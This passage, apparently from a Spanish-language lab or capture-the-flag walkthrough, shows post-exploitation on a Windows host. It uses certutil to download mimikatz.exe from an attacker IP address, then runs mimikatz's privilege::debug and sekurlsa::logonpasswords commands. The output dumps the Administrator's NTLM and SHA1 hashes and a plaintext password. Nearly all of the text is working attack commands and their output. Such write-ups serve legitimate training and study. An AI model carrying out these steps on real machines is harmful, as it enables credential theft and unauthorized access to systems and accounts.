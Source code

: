 `Descargamos` el `binario` en la máquina víctima

```
C:\Windows\Temp\PostExploitation> certutil.exe -urlcache -split -f http://10.10.16.23/mimikatz.exe
****  Online  ****
  000000  ...
  62826f
CertUtil: -URLCache command completed successfully.
```

`Ejecutamos` el `binario` y nos `dumpeamos` la `contraseña` del `login` [https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#counteracting-sedebugprivilege-removal](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz#counteracting-sedebugprivilege-removal)

```
C:\Windows\Temp\PostExploitation>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 437201 (00000000:0006abd1)
Session           : Interactive from 0
User Name         : Administrator
Domain            : haris-PC
Logon Server      : HARIS-PC
Logon Time        : 12/08/2024 00:37:01
SID               : S-1-5-21-319597671-3711062392-2889596693-500
	msv :	
	[00010000] CredentialKeys
	* NTLM     : cdf51b162460b7d5bc898f493751a0cc
	* SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
	[00000003] Primary
	* Username : Administrator
	* Domain   : haris-PC
	* NTLM     : cdf51b162460b7d5bc898f493751a0cc
	* SHA1     : dff1521f5f2d7436a632d26f079021e9541aba66
	tspkg :	
	wdigest :	
	* Username : Administrator
	* Domain   : haris-PC
	* Password : ejfnIWWDojfWEKM
	kerberos :	
	* Username : Administrator
	* Domain   : haris-PC
	* Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 12/08/2024 00:36:19
```